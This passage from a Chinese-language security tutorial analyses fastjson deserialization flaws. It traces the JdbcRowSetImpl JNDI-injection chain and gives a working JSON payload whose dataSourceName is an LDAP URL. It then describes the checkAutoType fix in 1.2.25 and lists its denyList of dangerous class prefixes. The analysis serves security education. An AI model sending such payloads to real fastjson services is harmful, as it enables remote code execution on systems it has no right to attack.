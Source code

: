 
**JdbcRowSetImpl 反序列化**

JdbcRowSetImpl 类位于 `com.sun.rowset.JdbcRowSetImpl` ，这条漏洞利用链比较好理解，是 `javax.naming.InitialContext#lookup()` 参数可控导致的 JNDI 注入。

先看一下 `setAutoCommit()` 方法，在 `this.conn` 为空时，将会调用 `this.connect()` 方法。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616400334257.png)

方法里调用了 `javax.naming.InitialContext#lookup()` 方法，参数从成员变量 `dataSource` 中获取。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616400975286.png)

这时调用链就十分清晰了，最终的 payload 为：
```json
{
	"@type":"com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName":"ldap://127.0.0.1:23457/Command8",
	"autoCommit":true
}
```

### 2. fastjson-1.2.25

在版本 1.2.25 中，官方对之前的反序列化漏洞进行了修复，引入了 checkAutoType 安全机制，默认情况下 autoTypeSupport 关闭，不能直接反序列化任意类，而打开 AutoType 之后，是基于内置黑名单来实现安全的，fastjson 也提供了添加黑名单的接口。

> 影响版本：`1.2.25 <= fastjson <= 1.2.41`
> 描述：作者通过为危险功能添加开关，并提供黑白名单两种方式进行安全防护，其实已经是相当完整的防护思路，而且作者已经意识到黑名单类将会无穷无尽，仅仅通过维护列表来防止反序列化漏洞并非最好的办法。而且靠用户自己来关注安全信息去维护也不现实。

安全更新主要集中在 `com.alibaba.fastjson.parser.ParserConfig`，首先查看类上出现了几个成员变量：布尔型的 autoTypeSupport，用来标识是否开启任意类型的反序列化，并且默认关闭；字符串数组 denyList ，是反序列化类的黑名单；acceptList 是反序列化白名单。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616459751324.png)

其中黑名单 denyList 包括：
```Java
bsh
com.mchange
com.sun.
java.lang.Thread
java.net.Socket
java.rmi
javax.xml
org.apache.bcel
org.apache.commons.beanutils
org.apache.commons.collections.Transformer
org.apache.commons.collections.functors
org.apache.commons.collections4.comparators
org.apache.commons.fileupload
org.apache.myfaces.context.servlet
org.apache.tomcat
org.apache.wicket.util
org.codehaus.groovy.runtime
org.hibernate
org.jboss
org.mozilla.javascript
org.python.core
org.springframework
```

